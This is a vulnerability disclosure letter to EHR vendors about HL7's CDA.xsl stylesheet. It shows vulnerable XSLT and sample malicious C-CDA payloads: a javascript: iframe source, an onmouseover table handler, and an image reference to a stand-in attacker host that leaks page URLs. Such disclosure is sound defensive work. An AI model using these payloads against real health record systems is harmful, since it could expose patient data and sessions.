 ﻿### Dear EHR Vendor,

I'm a medical informatics researcher at Boston Children's Hospital, and I'm
writing to share some security considerations pertinent to any EHR that
displays Consolidated CDA documents for Meaningful Use (especially in a Web
browser environment). I would appreciate if you could ensure that the message
below reaches someone on your security team.

Best,

Josh Mandel, MD  
Lead Architect, SMART Platforms  
Harvard Medical School / Boston Children's Hospital  

---

### Dear Security Team,

I'm writing to report a *potential security vulnerability* in the display of
Consolidated CDA documents. To be clear, I haven't tested whether your EHR
products are vulnerable to the issues below, but I have found that they
*affect some production EHR systems*, and I wanted to share this report with
Web-based EHR vendors privately before I describe it in public on the [SMART Platforms
blog](http://smartplatforms.org).

In short, the concern has to do with the use of XSLT "stylesheets" to
display externally-supplied C-CDA documents in the EHR. To be specific:
**the CDA.xsl stylesheet provided by HL7 (which I've seen broadly adopted by many EHR vendors) can  leave EHRs vulnerable to attacks by maliciously-composed documents.**

The "TL;DR" version is: If you're using XSLT stylesheets to render C-CDAs in
your EHR, make sure you understand the security implications. Otherwise you
could be vulnerable to a data breach.

**I would appreciate if you could reply to me** so I can track the dissemination of
this notice. My plan is to write a public blog post that would be published on
3/21/2014. If you discover that your system is vulnerable and you need more
time to repair it, please let me know prior to 3/20, and I can delay publication if necessary.

Best,

  Josh Mandel, MD  
  Lead Architect, SMART Platforms  
  Harvard Medical School / Boston Children's Hospital


### Three fundamental attacks

Many vendors appear to be using (slightly modified) versions of the
[CDA.xsl](https://github.com/chb/sample_ccdas/blob/master/CDA.xsl) that comes
with HL7's C-CDA release. This provides potential attackers with a highly
visible, leveragable target.

My analysis revealed at least three ways to craft a malicious C-CDA. I'll describe them in detail...


#### 1. Unsanitized `nonXMLBody/text/reference/@value` can execute JavaScript
One opportunity for injection attacks is the default handling of a `nonXMLBody` CDA. 

```
<xsl:template match='n1:component/n1:nonXMLBody'>
  <xsl:choose>
  <!-- if there is a reference, use that in an IFRAME -->
  <xsl:when test='n1:text/n1:reference'>
  <IFRAME name='nonXMLBody' id='nonXMLBody' WIDTH='80%' HEIGHT='600' src='{n1:text/n1:reference/@value}' />
</xsl:when>
```

This means we can get javascript to execute if we can supply it in a reference like:

```
<nonXMLBody>
  <text>
    <reference value="javascript:alert(window.parent.location);"/>
  </text>
</nonXMLBody>
```

The XSLT-output HTML rendering would include the following dangerous snippet:

```
  <iframe src="javascript:alert(window.parent.location);"></iframe>
```

#### 2. Unsanitized `table/@onmouseover` can execute JavaScript

A valid C-CDA document is not allowed to provide `table/@onmouseover`
attributes. But if invalid documents are allowed into a system, then the
following permissive "copy all" can be dangerous:

```
<!-- Tables -->
<xsl:template
  match="n1:table/@*|n1:thead/@*|n1:tfoot/@*|n1:tbody/@*|n1:colgroup/@*|n1:col/@*|n1:tr/@*|n1:th/@*|n1:td/@*">
  <xsl:copy>
    <xsl:copy-of select="@*" />
    <xsl:apply-templates />
  </xsl:copy>
```

What this says is: "when you find a `table` in the C-CDA document, just copy
all of its XML attributes right into the rendered document. An attacker can use
this to inject JavaScript in the resulting document. For example, an attacker
could steal cookies and application state, and them back to an external server.

A source C-CDA document would supply a table like:

```
<table 
   onmouseover="alert(window.parent.location);"
   style="height: 100%; width: 100%; position: fixed; left: 0px; top: 0px;">
</table>
```

... and the XSLT-output HTML rendering would contain the source `table` element verbatim.


#### Unsanitized `observationMedia/value/reference/@value` can leak state via HTTP `Referer` headers

Searching CDA.xsl for the term `img`, reveals two places where image tags are
emitted.  Both occur within the `renderMultiMedia` template definition:

```
<xsl:template match="n1:renderMultiMedia">
  <xsl:variable name="imageRef" select="@referencedObject" />
      <!-- snipped for brevity -->
      <xsl:if
        test="//n1:observationMedia[@ID=$imageRef]/n1:value[@mediaType='image/gif' or @mediaType='image/jpeg']">
        <br clear="all" />
        <xsl:element name="img">
          <xsl:attribute name="src"><xsl:value-of
              select="//n1:observationMedia[@ID=$imageRef]/n1:value/n1:reference/@value" /></xsl:attribute>
        </xsl:element>
      </xsl:if>
      <!-- snipped for brevity -->
</xsl:template>
```

By constructing an appropriate `section` in a C-CDA document to act as input to
the template above, an attacker can cause the browser to leak the current page
URL to `https://hack.me`:

```
<text>
  This image loads from an external server...
  <renderMultiMedia referencedObject="MM1"></renderMultiMedia>
</text>
<entry>
  <observationMedia ID="MM1">
    <id root="10.23.4567.345"/>
    <value xsi:type="ED" mediaType="image/jpeg">
      <reference value="https://hack.me/leaked-from-image.png"/>
    </value>
  </observationMedia>
</entry>
```

The XSLT-output HTML rendering would include the potentially dangerous snippet:

```
<img src="https://hack.me/leaked-from-image.png"></img>
```

Each time the document is viewed, the browser sends an HTTP `Referer` header to `hack.me` that inclues the source page URL. This can be dangerous if any private session state is embedded in that URL.
